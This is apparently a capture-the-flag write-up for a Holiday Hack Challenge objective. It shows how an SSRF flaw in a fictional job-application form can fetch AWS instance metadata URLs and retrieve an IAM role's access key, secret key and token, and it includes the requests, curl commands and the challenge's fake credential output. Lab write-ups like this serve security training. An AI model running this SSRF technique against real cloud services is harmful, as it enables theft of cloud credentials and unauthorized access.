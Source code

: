 # Objective 10: Now Hiring!
**Location: https://apply.jackfrosttower.com/**  
**Hints provided by Noxious O. D'or after completion of [IMDS Exploration](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md)**

This objective is to get familiar with SSRF using IMDS URLs.

The website's application form consumes the user's name, resume (as file upload) and the URL to the public NLBI report.

After the submission, the item specified by the URL is retrieved by the website and then shown on the "submission accepted" screen using the URL https://apply.jackfrosttower.com/images/{username}.jpg

By choosing the right IMDS URLs, the secret access key for the S3 bucket can be retrieved using CURL:

URL 1 (get role name):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```
Result:
```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
jf-deploy-role
```

URL 2 (get security credentials for this role):
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```

```
joergen@northpole:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
```
```json
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```
So the secret access key for the S3 bucket is **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**

**Achievement: SSRF to IMDS to S3 Bucket Access**

### Additional Information

This objective uses the same IMDS dataset as the [IMDS Exploration terminal](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md).
For the terminal it is confirmed to be fake information hosted from a local process. In addition - due to the fact, that the region `np-north-1` is not a valid AWS region, it does not make sense trying to get access to a related S3 bucket.
